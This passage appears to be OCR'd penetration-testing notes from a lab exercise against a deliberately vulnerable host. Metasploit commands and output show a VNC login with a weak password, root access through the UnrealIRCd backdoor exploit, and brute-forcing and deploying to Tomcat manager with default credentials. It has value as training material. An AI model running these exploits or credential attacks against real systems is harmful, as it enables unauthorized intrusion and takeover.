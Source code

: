   [+] 192.168.130.134:5900  - 192.168.130.134:5900 - Login Successful: :password                           
  
  vncviewer 192.168.1.9:5900 
  
  whoami >> root
  
  6667/tcp open  irc          UnrealIRCd
---
  
  msf : search irc Unreal 
  
  use exploit/unix/irc/unreal_ircd_3281_backdoor
  
  set Rhost 192.168.1.9 
  
  Run 
  
  whoami >> root 
  
  
  
 8009/tcp open  ajp13       Apache Jserv (Protocol v1.3)
-----
 It an optimized version of the HTTP protocol to allow a standalone web server such as Apache to talk to Tomcat
 
 seems not to be vulnerable 
 
 8180/tcp open  http        Apache Tomcat/Coyote JSP engine 1.1
---
 search msf for vulnerability , found RCE that need to be authenticated so we will attempt a brute force searching for weak credentials
 
 use auxiliary/scanner/http/tomcat_enum
 
 set Rhost 192.168.1.9
 
 set targeturi /maanger
 
 set rport 8180
 
 run 
 
 [+] http://192.168.1.9:8180/manager - Users found: admin, both, manager, role1, root, tomcat
 

use auxiliary/scanner/http/tomcat_mgr_login 

 set username tomcat
 
 run 
 
 [+] 192.168.1.19:8180 - Login Successful: tomcat:tomcat

 use exploit/multi/http/tomcat_mgr_deploy
 
set Rhost 192.168.1.9
 
 set targeturi /manager
 
 run 
 
 now we've got our credential lets move for the shell
 